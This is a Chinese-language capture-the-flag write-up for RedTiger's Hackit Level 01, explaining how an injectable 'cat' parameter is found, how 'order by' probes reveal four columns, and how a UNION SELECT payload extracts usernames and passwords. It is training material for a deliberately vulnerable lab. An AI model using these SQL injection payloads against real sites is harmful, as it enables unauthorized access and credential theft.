 ## [[RedTiger's Hackit](http://redtiger.labs.overthewire.org/)] [[Level 01 - Simple SQL-Injection](http://redtiger.labs.overthewire.org/level1.php)] [[解题报告](http://exp-blog.com/2019/05/25/pid-3801/)]

------

## 题目分析

作为第一题反而不算太水，估计有些同学在这里会卡关。

首先读懂题意：通过 SQL 注入找到用户 `Hornoxe` 的登陆密码，明确告知了用户表的表名是 `level1_users` 。

> 虽然不知道 level1_users 的列名，但是账密输入框的名称暗示了有两个列名是 `username` 和 `password` 。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/redtigers-hackit/Level%2001%20-%20Simple%20SQL-Injection/imgs/01.png)

------

## 找到注入点

测试了集中方法，`username` 和 `password` 输入框不是注入点。

注入点其实在 [`Category: 1`](http://redtiger.labs.overthewire.org/level1.php?cat=1)

点击后 url 多了一个参数 `cat=1` ，同时页面会回显三个查询值：

```
This hackit is cool :)
My cats are sweet.
Miau
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/redtigers-hackit/Level%2001%20-%20Simple%20SQL-Injection/imgs/02.png)

尝试把 url 的 `cat=1` 更改成  `cat=2` ，此时页面回显的查询值为：`This category does not exist! `

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/redtigers-hackit/Level%2001%20-%20Simple%20SQL-Injection/imgs/03.png)

据此推测此处的 SQL 语句为：

```sql
select [col1], [col2], ...... from [data_table] where category = $_GET['cat']
```

------

### 试错

这种题型其实很好注入，通过 `union` 关联查询用户表 `level1_users` 就可以，例如：

```sql
select [col1], [col2], ...... from [data_table] where category = 1 union select username, password from level1_users
```

> 这里假设数据表表名为 `data_table`，列名为 `col1`、 `col2`、......

亦即 payload 可能为：`1 union select username, password from level1_users`

测试下 payload 效果，但是页面回显为 `This category does not exist! `

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/redtigers-hackit/Level%2001%20-%20Simple%20SQL-Injection/imgs/04.png)

因为 `union` 有个特性，关联查询的两张表列数必须一致，因此推测查询失败可能是因为列数不一致导致的。

但是我们不知道数据表 `data_table` 的列数，也不知道列名。

这里可以利用 `oder by` 的几个特性：

- `oder by` 可以对多列排序
- `oder by` 排序的列必须出现在 `select` 的列中
- `oder by` 可以使用列名，也可以使用列索引（列索引是从 1 开始的）

根据这几个特性，就可以探测数据表 `data_table` 的列数。

于是我们构造探针如下：

- `1 order by 1`
- `1 order by 1, 2`
- `1 order by 1, 2, 3`
- `1 order by 1, 2, 3, 4`
- `1 order by 1, 2, 3, 4, 5`

不难发现，把 1、2、3、4 列放到 `oder by` 中排序都可以查询到数据，而当第 5 列出现之后，就会查询失败。

说明数据表 `data_table` 的第  1、2、3、4 列都被查询了（具体的列名不用关心），亦即是说在用 `union` 关联查询时，也要查询 4 列。

> 当然这个说明的逻辑不是完全严密的，数据表 `data_table` 可能只有第 5 列没有被查询，而第 6 列被查询了，也会出现这种情况。不过这种事情只要多测试几次就可以探测出来了，故而不再啰嗦。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/redtigers-hackit/Level%2001%20-%20Simple%20SQL-Injection/imgs/05.png)
![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/redtigers-hackit/Level%2001%20-%20Simple%20SQL-Injection/imgs/06.png)

------

## 构造 payload

既然已经知道数据表 `data_table` 被查询了 4 列，这里重新构造 payload 如下：

`1 union select 1, 2, 3, 4 from level1_users`

试一下效果，很明显这次可以查询到数据，而且虽然我们查询了4 列，但是只有第 3 和第 4 列被回显到页面：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/redtigers-hackit/Level%2001%20-%20Simple%20SQL-Injection/imgs/07.png)

很自然我们可以利用第 3、4 列去查询目标用户名和密码，最终构造 payload 如下：

`1 union select 1, 2, username, password from level1_users`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/redtigers-hackit/Level%2001%20-%20Simple%20SQL-Injection/imgs/08.png)

成功得到账密，完成挑战。

输入账密后得到 flag 和 跳关密码。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/redtigers-hackit/Level%2001%20-%20Simple%20SQL-Injection/imgs/09.png)


------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
